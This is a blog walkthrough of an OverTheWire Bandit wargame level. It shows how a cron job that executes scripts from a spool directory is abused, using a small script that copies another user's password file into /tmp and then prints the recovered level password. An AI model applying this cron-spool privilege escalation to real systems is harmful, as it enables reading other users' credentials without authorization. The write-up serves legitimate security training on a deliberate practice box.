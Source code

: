 ```yaml
---
layout: post
date:   2021-04-09 10:20:00 +0100
categories: OverTheWire Bandit
---
```


# Level goal
```bash
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

## Lets look in that folder again and look at what the bandit24 job does..

```bash
bandit23@bandit:/tmp/zd23$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

## Lets open that script and take a look

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

## So, it looks like we need to create a script, put it in the /var/spool/bandit24 folder. Guessing because there's nothing there we need to get the bandit24 password from the /etc/bandit_pass directory (/etc/bandit_pass/bandit24)

## Lets create a tmp directory and a script
```bash
bandit23@bandit:~$ mkdir /tmp/zd23
bandit23@bandit:~$ cd /tmp/zd23
bandit23@bandit:/tmp/zd23$ vi script.sh
```

```bash
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/zd23/beep
```

## Lets make it executable
```bash
bandit23@bandit:/tmp/zd23$ chmod 777 script.sh
bandit23@bandit:/tmp/zd23$ ls -ls
total 4
4 -rwxrwxrwx 1 bandit23 root 52 Apr  9 12:21 script.sh
```

## Lets copy it to the spool directory and see what happens

```bash
bandit23@bandit:/tmp/zd23$ cp script.sh /var/spool/bandit24
# An eternity laster..
bandit23@bandit:/tmp/zd23$ ls
beep  script.sh
bandit23@bandit:/tmp/zd23$ cat beep
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Okay - So nothing actually happened for ages, had to do some googling. Had to actually give the /tmp/zd23 folder permissions to be written to.. It then worked (777 all the things)

VICTORY.

## The password for level 24: 	

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

On the next episode of Bandit...

```bash
ssh bandit24@localhost
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```